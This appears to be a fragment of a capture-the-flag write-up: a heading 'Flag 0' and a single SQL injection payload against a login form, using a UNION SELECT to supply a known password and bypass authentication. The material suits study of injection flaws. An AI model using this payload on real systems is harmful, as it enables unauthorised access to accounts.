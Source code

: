 ## Flag 0

``username=user' UNION SELECT "pass" as password FROM admins WHERE '1'='1&password=pass``
